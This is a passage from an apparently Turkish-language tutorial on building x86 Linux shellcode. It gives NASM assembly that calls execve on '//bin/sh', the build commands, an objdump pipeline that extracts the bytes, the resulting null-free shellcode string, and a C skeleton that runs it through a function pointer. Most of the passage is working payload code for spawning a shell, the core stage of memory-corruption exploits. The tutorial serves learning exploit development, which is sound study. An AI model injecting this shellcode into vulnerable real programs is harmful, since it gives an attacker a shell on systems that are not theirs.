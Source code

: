 ```nasm
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp    ; "//bin/sh",0 pointer is ESP
  mov al, 0xb     ; mov eax, 11: execve
  int 0x80        ; syscall

```

Aşağıdaki adımları izleyerek kodun düzgün çalışıp çalışmadığını ve null byte içerip içermediğini kontrol edebilirsiniz:     

```bash
nasm -f elf32 -o example3.o example3.asm
ld -m elf_i386 -o example3 example3.o
./example3
objdump -M intel -d example3
```

![execve shellcode 2](./images/12/2021-10-11_13-30.png){width="80%"}    

Sonra, `bash` ve `objdump` kullanarak shellcode'un byte kodlarını çıkartabilirsiniz:

```bash
objdump -d ./example3|grep '[0-9a-f]:'|grep -v 'file'|cut \
-f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '| \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```

![execve shellcode 2.1](./images/12/2021-10-11_13-35.png){width="80%"}    

Bizim shellcode'ımız böyle olacak:    

```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

Sonra,yukarıdaki kodu (`run.c`) bunla değiştirelim:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```
